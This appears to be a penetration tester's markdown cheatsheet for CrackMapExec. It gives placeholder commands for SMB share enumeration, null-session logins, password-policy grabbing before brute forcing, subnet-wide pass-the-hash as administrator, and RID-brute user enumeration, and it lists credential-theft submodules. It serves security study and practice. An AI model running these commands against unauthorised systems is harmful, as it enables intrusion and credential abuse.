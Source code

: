 # Crackmapexec Cheatsheet
Contains the submodules
-   [Impacket](https://github.com/CoreSecurity/impacket)
-   [Pywinrm](https://github.com/diyan/pywinrm)
-   [Pywerview](https://github.com/the-useless-one/pywerview)
-   [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
-   [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
-   [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
-   [Mimikittenz](https://github.com/putterpanda/mimikittenz)
-   [NetRipper](https://github.com/NytroRST/NetRipper)
-   [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
-   [SessionGopher](https://github.com/fireeye/SessionGopher)
-   [Mimipenguin](https://github.com/huntergregal/mimipenguin)

## Modules

```shell
-M spider_plus # spider share outputs json
```

## Connecting
```bash
crackmapexec smb $domain
crackmapexec smb $IP $IP-2
crackmapexec smb $IP-Range $IP-Range-More-Specific 
crackmapexec smb $Subnetmask
crackmapexec smb targets.txt
```

## Shares
Similar checklist from Ippsec to match the pentester use case of [[SMB-Recon-Cheatsheet]] `smbclient`, to enumerate specific configuration, but also Pentester are more *"finickity"*:

```bash
crackmapexec smb $IP --shares
crackmapexec smb $IP --shares -u ''
crackmapexec smb $IP --shares -u 'Test'
crackmapexec smb $IP --shares -u 'Test' -p ''
```

## Null sessions
```bash
crackmapexec smb $IP -u "" up ""
```

With Null sessions Windows System that upgraded from 2003, anonymous authenication to grab password policy:
```bash
crackmapexec smb $IP -u '' -p '' --pass-pol
```
Account lockout threshold: 0 -> bruteforcing with [[Password-Attacks]] 

```bash
crackmapexec smb $IP  -u <user> -p <password>
```

## Spraying
#### Pass the hash against a subnet
```bash
# The LMHASH does not actually matter
crackmapexec smb $Subnetmask -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb $Subnetmask -u administrator -H 'NTHASH'
```

## Enumeration
#### Users
```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --rid-brute
crackmapexec smb $IP -u '$foothold-account' -p '$password' --groups
crackmapexec smb $IP -u '$foothold-account' -p '$password' --local-users
```

```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --shares
crackmapexec smb $IP -u '$foothold-account' -p '$password' --pass-pol

```

## References

[ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
[haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
[haax9 -Github](https://github.com/Haax9)
[blackhatethicalhacking](https://www.blackhatethicalhacking.com/tools/crackmapexec/)
[Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)